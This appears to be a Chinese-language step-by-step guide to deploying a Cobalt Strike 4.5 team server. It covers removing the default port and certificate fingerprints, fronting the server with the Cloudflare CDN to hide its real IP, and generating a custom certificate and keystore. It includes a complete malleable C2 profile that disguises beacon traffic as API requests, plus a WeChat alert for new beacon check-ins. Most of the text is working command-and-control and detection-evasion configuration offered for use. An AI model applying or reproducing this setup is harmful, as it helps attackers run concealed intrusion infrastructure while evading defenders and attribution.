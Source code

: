 # 0x01 CS服务端启动
将CS4.5文件夹上传到VPS上，执行如下命令即可启动，需要注意，IP地址不能是0.0.0.0
```
./teamserver 192.168.0.125 password
```

# 0x02 CS服务端特征去除
### 01 修改teamserver默认端口
打开文件teamserver，将默认的50050端口改为其他端口
### 02 修改teamserver默认指纹信息
正常情况使用nmap扫描时可看到此特征，如下图  
![image](./pic/02.png)  
阅读代码可知，当没有证书的时候会创建带有cobalt strike信息的证书，有证书的话，则会使用证书中的信息，下面我们会创建自己的证书，就不需要修改teamserver中的cobalt strike信息

# 0x03 CS隐藏真实IP
思路：基于CDN隐藏真实IP
### 步骤1 注册一个域名
有的文章提到使用www.freenom.com平台进行注册，我这边测试从freenom注册免费域名挺费劲的，试了几次都没成功，建议从namesilo购买一个域名，选一个不那么大众化的，每年0.99$
### 步骤2 cdn平台配置dns解析
```
需要注意，添加DNS记录时格式如下
Name：ybdt，IPv4 address：服务器 IP
```
此处需要图文说明，参见文章[https://xz.aliyun.com/t/11099](https://xz.aliyun.com/t/11099)中的[CDN平台配置DNS解析](https://xz.aliyun.com/t/11099#toc-2)部分
### 步骤3 CDN平台创建证书
```
需要注意，创建时要保存证书和私钥，不然后面没法再看到私钥
```
此处需要图文说明，参见文章[https://xz.aliyun.com/t/11099](https://xz.aliyun.com/t/11099)中的[CDN平台创建证书](https://xz.aliyun.com/t/11099#toc-3)部分
### 步骤4 CDN平台禁用缓存
此处需要图文说明，参见文章[https://xz.aliyun.com/t/11099](https://xz.aliyun.com/t/11099)中的[CDN平台禁用缓存](https://xz.aliyun.com/t/11099#toc-4)部分
### 步骤5 生成CS证书
进入vps中的cs文件夹中，创建两个文件：server.pem（文件中贴入上面的源证书）和server.key（文件中贴入上面的私钥），用于生成新的cobaltstrike证书，如果原先的cobaltstrike文件夹内有默认的.store证书，需要先删除掉
```
openssl pkcs12 -export -in server.pem -inkey server.key -out cfcert.p12 -name cloudflare_cert -passout pass:123456

这里是利用pem和key文件创建新的cert证书，这里的pass密码需要修改，改为复杂的密码，不要使用123456
```
再利用生成的cert证书生成store证书
```
keytool -importkeystore -deststorepass 123456 -destkeypass 123456 -destkeystore cfcert.store -srckeystore cfcert.p12 -srcstoretype PKCS12 -srcstorepass 123456 -alias cloudflare_cert
```
### 步骤6 创建profile文件
```
set sleeptime "3000";

https-certificate {
    set keystore "cfcert.store";
    set password "123456";
}

http-stager {
    set uri_x86 "/api/1";
    set uri_x64 "/api/2";
    client {
        header "Host" "ybdt.test.com";
    }
    server {
        output {
            print;
        }
    }
}

http-get {
    set uri "/api/3";
    client {
        header "Host" "ybdt.test.com";
        metadata {
            base64;
            header "Cookie";
        }
    }
    server {
        output {
            print;
        }
    }
}

http-post {
    set uri "/api/4";
    client {
        header "Host" "ybdt.test.com";
        id {
            uri-append;
        }
        output {
            print;
        }
    }
    server {
        output {
            print;
        }
    }
}

```
### 步骤7 创建监听器
此处需要图文说明，参见文章[https://xz.aliyun.com/t/11099](https://xz.aliyun.com/t/11099)中的[启动teamserver](https://xz.aliyun.com/t/11099#toc-9)部分
```
需要注意，CloudFlare CDN免费支持的端口如下
http:
80、8080、8880、2052、2082、2086、2095
https:
443、2053、2083、2087、2096、8443
```
### 步骤8 上线测试
上线后，我这边wireshark抓包，抓到的ip查询后发现是微软云（可能是cloudflare的节点在微软云上，或其他原因），如下图  
![image](./pic/01.png)
```
注意，vps的防火墙要打开，我就在这卡了一会
```

# 0x04 CS上线微信提醒
此处需要图文说明，参见文章[https://xz.aliyun.com/t/10698](https://xz.aliyun.com/t/10698)中的[微信单人提醒](https://xz.aliyun.com/t/11099#toc-9)部分

不过有2处需要修改：  
01、vps会提示需要转发x11请求，解决办法：启动时需要加一个参数-Djava.awt.headless=true，修改后agscript如下
```
java -XX:ParallelGCThreads=4 -XX:+AggressiveHeap -XX:+UseParallelGC -Djava.awt.headless=true -classpath ./cobaltstrike.jar aggressor.headless.Start $*
```
02、启动时会有安全提醒，需要注释掉如下
```
This can be done by editing the accessibility.properties file for OpenJDK:
sudo vim /etc/java-8-openjdk/accessibility.properties
Comment out the following line:
assistive_technologies=org.GNOME.Accessibility.AtkWrapper
```
agscript-start.sh如下
```
./agscript CS公网IP CS端口 用户名 CS密码 PushPlus.cna
```

# 参考链接
```
https://xz.aliyun.com/t/11099
https://xz.aliyun.com/t/10698
https://github.com/microsoft/vscode-arduino/issues/644
```
